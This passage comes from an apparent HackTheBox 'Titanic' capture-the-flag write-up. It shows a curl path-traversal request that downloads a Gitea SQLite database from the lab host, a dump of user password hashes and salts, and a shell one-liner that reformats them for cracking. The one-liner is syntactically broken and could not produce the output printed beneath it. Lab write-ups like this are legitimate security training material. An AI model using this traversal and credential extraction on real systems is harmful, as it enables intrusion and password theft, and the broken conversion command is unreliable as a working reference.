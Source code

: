 ~~~ shell 
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
~~~

I found user `developer`. The next thing I need to do is find the password for the `developer` user. So, I get the file database though file traversal vulnerability. 


~~~ shell
┌──(trit㉿chimp)-[~/HackTheBox/Titanic]
└─$ curl "http://titanic.htb/download?ticket=../../../../../../../../../../home/developer/gitea/data/gitea/gitea.db" --output gitea.db
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 2036k  100 2036k    0     0  1952k      0  0:00:01  0:00:01 --:--:-- 1953k
                                                                                                                                                 
┌──(trit㉿chimp)-[~/HackTheBox/Titanic]
└─$ ls
5d5352d4-9b15-468b-a084-fe28d553acee.json  docker-config  flask-app  gitea.db  reports
                                                                                                                                                 
┌──(trit㉿chimp)-[~/HackTheBox/Titanic]
└─$ file gitea.db        
gitea.db: SQLite 3.x database, last written using SQLite version 3045001, file counter 562, database pages 509, cookie 0x1d9, schema 4, UTF-8, version-valid-for 562
    
┌──(trit㉿chimp)-[~/HackTheBox/Titanic]
└─$ sqlite3 gitea.db

SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> select * from user;
1|administrator|administrator||root@titanic.htb|0|enabled|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|pbkdf2$50000$50|0|0|0||0|||70a5bd0c1a5d23caa49030172cdcabdc|2d149e5fbd1b20cf31db3e3c6a28fc9b|en-US||1722595379|1722597477|1722597477|0|-1|1|1|0|0|0|1|0|2e1e70639ac6b0eecbdab4a3d19e0f44|root@titanic.htb|0|0|0|0|0|0|0|0|0||gitea-auto|0
2|developer|developer||developer@titanic.htb|0|enabled|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|pbkdf2$50000$50|0|0|0||0|||0ce6f07fc9b557bc070fa7bef76a0d15|8bf3e3452b78544f8bee9400d6936d34|en-US||1722595646|1722603397|1722603397|0|-1|1|0|0|0|0|1|0|e2d95b7e207e432f62f3508be406c11b|developer@titanic.htb|0|0|0|0|2|0|0|0|0||gitea-auto|0
Program interrupted.

~~~

I tried Crack Password but it was a scam so I found another way to crack the hash.

~~~ shell
┌──(trit㉿chimp)-[~/HackTheBox/Titanic]
└─$ sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes

administrator:sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
~~~
